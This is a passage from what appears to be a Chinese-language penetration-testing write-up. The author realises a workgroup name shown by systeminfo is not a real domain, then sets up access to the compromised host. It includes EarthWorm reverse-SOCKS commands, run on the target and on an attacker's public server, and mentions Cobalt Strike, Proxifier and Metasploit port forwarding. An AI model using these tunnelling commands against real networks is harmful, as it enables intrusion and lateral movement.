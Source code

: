 
-   后来发现自己一开始就错了 一开始看到systeminfo写的域 以为有域 毕竟长的太像了！！！  
    结果自己本机测试 工作组可以修改名字然后systeminfo就会出现类似于域名 例如  
    哎 这该死的名字！ 之前还坐了一顿傻逼操作 秀到自己了 还以为是域控关机下线或者迁移了(域内所有主机域用户或者命令都要经过域控执行)  
    [![](assets/1698896982-6d43cb2f4468644ea80e69e51ec4342c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307190046-e57da4bc-6062-1.png)

##### But也不对啊 如果是工作组 域都是大写 他是怎么办到小写的

###### 再者 前面用Msf都能看到域控Ip 难道误报？？？

-   这里不是有口令嘛 3389上去看看 这么神奇的玩意儿 到底啥样儿  
    cs 自带sock4  
    通过cs 建立sock4代理 加上 windows下面 proxifier
    
    ew(frp也可以但感觉用起没ew顺手)  
    目标: shell ew\_win32.exe -s rssocks -d x.x.x.x. -e 1024  
    公网ip: ./ew\_linux\_x64 -s rcsocks -l 1024 -e 1080 &  
    再用proxifier 连接
    
    还有就是msfconsole 也自带端口转发  
    cs的端口也带转发 不成功 不清楚原因 说无法绑定  
    [![](assets/1698896982-010ab59280ea540131abeeebb81da842.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307190120-fa122c40-6062-1.png)
    